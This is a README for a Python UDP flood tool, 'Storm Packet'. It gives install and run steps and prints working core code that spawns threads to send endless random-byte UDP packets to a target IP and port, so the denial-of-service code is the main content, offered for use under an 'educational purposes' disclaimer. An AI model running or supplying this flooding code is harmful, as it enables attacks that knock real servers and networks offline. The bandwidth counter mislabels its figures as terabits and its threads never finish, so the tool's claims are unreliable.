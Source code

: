 ﻿# Storm Packet

This project simulates a UDP flood attack to test the resilience of a network or server. It sends a high volume of UDP packets to a specified target IP and port using multithreading.

## Features

- Simulates a UDP flood attack for network testing.
- Multithreaded implementation for increased packet-sending speed.
- Configurable target IP, port, and packet size.
- Real-time tracking of total bandwidth sent.
- Color-coded console output for better visibility.

## Usage

### Prerequisites

- Python 3.6 or higher

### Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/dsametkaplan/storm-packet.git
   ```
2. Navigate to the project directory:
   ```bash
   cd storm-packet
   ```

### Running the Simulation

1. Run the script:
   ```bash
   python stormPacket.py
   ```
2. Provide the following inputs when prompted:

   - **Target IP address**: The IP address of the target server.
   - **Target port number**: The port on which the UDP packets will be sent.

3. The script will simulate the UDP flood and display real-time statistics, including the total bandwidth sent.

## Code Explanation

### Main Components

#### Colors Class

This class is used to add color-coded output to the console for better readability.

```python
class Colors:
    GREEN = "\033[92m"
    RED = "\033[91m"
    YELLOW = "\033[93m"
    RESET = "\033[0m"
```

#### UDP Packet Sending Function

This function creates a UDP socket and continuously sends random packets to the target.

```python
def send_udp_packet():
    udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    data_to_send = random._urandom(packet_size)
    while True:
        udp_socket.sendto(data_to_send, (target_ip, target_port))
        print(f"{Colors.GREEN}Packet sent: {target_ip}:{target_port}{Colors.RESET}", end='\r')
```

#### Flood Simulation Function

This function manages the creation and execution of threads for the UDP flood and tracks the total bandwidth sent.

```python
def flood_simulation(num_threads):
    threads = []
    total_sent = 0
    for _ in range(num_threads):
        thread = threading.Thread(target=send_udp_packet)
        threads.append(thread)
        thread.start()

    while total_sent < target_bandwidth:
        time.sleep(1)
        total_sent += num_threads * packet_size * 8 / 1e9
        print(f"{Colors.YELLOW}Total Sent: {total_sent:.2f} Tbit{Colors.RESET}", end='\r')

    for thread in threads:
        thread.join()
```

## Example Output

```plaintext
[93mEnter the target IP address: [0m192.168.1.1
[93mEnter the target port number: [0m8080
[91mStarting Storm Packet with 100 threads...[0m
[92mPacket sent: 192.168.1.1:8080[0m
[93mTotal Sent: 1.20 Tbit[0m
```

## Warning

This script is intended **only for educational purposes** and **authorized network testing**. Unauthorized use of this script on systems you do not own or have explicit permission to test is illegal and unethical.


## Contributions

Contributions are welcome! Feel free to fork the repository and submit a pull request.
